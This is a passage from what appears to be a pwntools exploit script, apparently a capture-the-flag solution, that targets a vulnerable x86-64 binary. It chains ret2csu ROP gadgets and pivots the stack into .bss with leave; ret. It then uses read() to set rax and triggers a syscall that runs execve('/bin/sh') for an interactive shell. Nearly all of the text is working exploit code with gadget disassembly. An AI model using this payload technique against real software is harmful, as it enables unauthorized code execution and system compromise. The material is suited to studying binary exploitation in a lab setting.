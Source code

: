 ```
   0x00000000004005eb <+107>:   mov    rbp,QWORD PTR [rsp+0x10]
   0x00000000004005f0 <+112>:   mov    r12,QWORD PTR [rsp+0x18]
   0x00000000004005f5 <+117>:   mov    r13,QWORD PTR [rsp+0x20]
   0x00000000004005fa <+122>:   mov    r14,QWORD PTR [rsp+0x28]
   0x00000000004005ff <+127>:   mov    r15,QWORD PTR [rsp+0x30]
   0x0000000000400604 <+132>:   add    rsp,0x38
   0x0000000000400608 <+136>:   ret 
"""
 
gadget_2 = 0x4005d0
"""
   0x00000000004005d0 <+80>:    mov    rdx,r15
   0x00000000004005d3 <+83>:    mov    rsi,r14
   0x00000000004005d6 <+86>:    mov    edi,r13d
   0x00000000004005d9 <+89>:    call   QWORD PTR [r12+rbx*8]
"""
 
def call_function(call_addr, arg1, arg2, arg3):
    payload = ""
    payload += p64(gadget_1)    # => rsp
    payload += "A" * 8
    payload += p64(0)           # => rbx
    payload += p64(1)           # => 1
    payload += p64(call_addr)   # => r12 => call addr
    payload += p64(arg1)        # => r13 => edi => rdi
    payload += p64(arg2)        # => r14 => rsi
    payload += p64(arg3)        # => r15 => rdx
    payload += p64(gadget_2)    # => rsp + 38
    payload += "C" * 0x38
    return payload
    
# use read to set rax as 0x59
payload1 = "A" * 0x10 + p64(bss_addr) # "A" * 0x10 + p64(0) is ok too
payload1 += call_function(elf.got['read'], 0, bss_addr, 0x200)
payload1 += p64(pop_rbp)
payload1 += p64(bss_addr)
payload1 += p64(leave_ret)

payload2 = p64(bss_addr + 0x8)       # p64(0x0)  is ok too
payload2 += call_function(elf.got["read"], 0, sh_addr, 0x200)
payload2 += call_function(sh_addr+0x10, sh_addr, 0, 0)
print len(payload2)
payload3 = "/bin/sh\x00".ljust(0x10, "B")
payload3 += p64(syscall_addr)
payload3 = payload3.ljust(59, "D")

sleep(3)
io.send(payload1)
io.send(payload2)
io.send(payload3)
io.interactive()
```
